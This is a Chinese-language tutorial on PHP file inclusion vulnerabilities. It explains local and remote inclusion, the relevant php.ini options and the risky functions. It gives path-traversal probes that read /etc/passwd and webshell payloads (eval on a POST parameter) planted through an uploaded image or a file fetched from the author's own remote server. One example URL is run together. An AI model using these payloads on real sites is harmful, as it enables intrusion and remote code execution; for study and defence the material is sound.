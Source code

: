 # 文件包含漏洞

文件包含漏洞：即file inclusion，意思是文件包含，是指当服务器开启allow_url_include选项时，就可以通过PHP的某些文件包含函数利用URL去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。

## 文件包含的分类

一、本地文件包含：当被包含的文件在服务器本地时，就叫本地文件包含。
二、远程文件包含：当被包含的文件在第三方服务器时，就叫远程文件包含。

远程文件包含需要在`php.ini`中开启`allow_url_fopen:on默认开启`和`allow_url_include:off默认关闭`

**PHP版本<=5.2**可以使用%00进行截断

## 文件包含函数

- include()：只有代码执行到该函数时才会包含文件进来，发生错误时只给出一个警告并继续向下执行。
- include_once()：和include()功能相同，区别在于当重复调用同一文件时，程序只调用一次。
- require()：只要程序执行就包含文件进来，发生错误时会输出错误结果并终止运行。
- require_once()：和require()功能相同，区别在于当重复调用同一文件时，程序只调用一次。
- highlight_file()：函数对文件进行语法高亮显示，可以读写敏感信息。
- show_source()：函数对文件进行语法高亮显示，可以读写敏感信息。
- readfile()：函数读取一个文件，并写入到输出缓冲，可以读写敏感信息。
- file_get_contents()：函数把整个文件读入一个字符串中，可以读写敏感信息。
- fopen()：函数打开文件或者 URL。
- file()：函数把整个文件读入一个数组中。

## 特征与检验

```txt
文件包含漏洞特征：
?page=a.php
?home=b.html
?file=content

检测方法：
?file=../../../../etc/passwd
?page=file:///etc/passwd
?home=main.cgi?page=http://www.a.com/1.phphttp://1.1.1.1/../../../../dir/file.txt
```

## 利用过程

本地包含Shell：
(1) 上传Web应用指定类型的文件，如：shell.jpg（需要确认文件上传后的绝对路径）
`<?fputs(fopen("shell.php","w"),"<?php @eval($_POST[topo]);?>")?>`
(2) 使用文件包含漏洞，直接解析上传的非php后缀的文件，获取webshell。
访问URL：`http://www.xxx.com/index.php?page=./shell.jpg` 在本地生成shell.php

远程包含Shell:
(1) 先写一个test.txt文件，保存在自己的远程服务器yyy上，内容如下：
`<?fputs(fopen("shell.php","w"),"<?php eval($_POST[topo]);?>")?>`
(2) 则可以通过访问：`http://www.xxx.com/index.php?page=http://www.yyy.com/test.txt` 则会在服务器根目录下生产一个shell.php
